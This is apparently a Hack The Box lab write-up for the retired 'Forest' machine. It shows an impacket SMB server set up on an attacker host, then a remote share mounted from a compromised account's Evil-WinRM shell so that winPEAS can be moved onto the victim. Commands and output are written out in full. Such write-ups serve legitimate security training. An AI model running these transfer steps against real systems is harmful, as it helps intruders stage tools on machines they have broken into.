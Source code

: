 # Uploading files to forest machine via smbserver
First made a directory named `smb` , cd into that directory and run the command on kali machine `mpacket-smbserver clarkey $(pwd) -smb2support -user clark -password clark1234` to start smbserver in `smb` directory with new user `clark` and password `clark1234`.
```bash
~/Dropbox/Documents/htb/boxes/RETIRED_BOXES/forest_retired/smb ❯ impacket-smbserver clarkey(smbshare name) $(pwd){make present directory as share folder} -smb2support -user clark(username for smbshare) -password clark1234(password for smbshare) 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Then ran following commands on victim(forest machine) so that we  can access `smb` folder on kali as `clark` folder on victim(forest machine) as smb share of new user created `clark` with share folder `clark`.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $pass = convertto-securestring 'clark1234' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $pass
System.Security.SecureString
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $cred = New-Object System.Management.Automation.PSCredential('clark', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $cred

UserName                     Password
--------                     --------
clark    System.Security.SecureString


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> New-PSDrive -Name clark -PSProvider Filesystem -Credential $cred -Root \\10.10.14.105\clarkey

Name           Used (GB)     Free (GB) Provider      Root                                                                                                                                                                                 CurrentLocation
----           ---------     --------- --------      ----                                                                                                                                                                                 ---------------
clark                                  FileSystem    \\10.10.14.105\clarkey


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop>
```
We have `smb` folder as `clark` folder in victim(forest)
```powershell
*Evil-WinRM* PS clark:\>ls


    Directory: \\10.10.14.105\clarkey


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/27/2021   4:08 AM         441856 winPEASany.exe
```

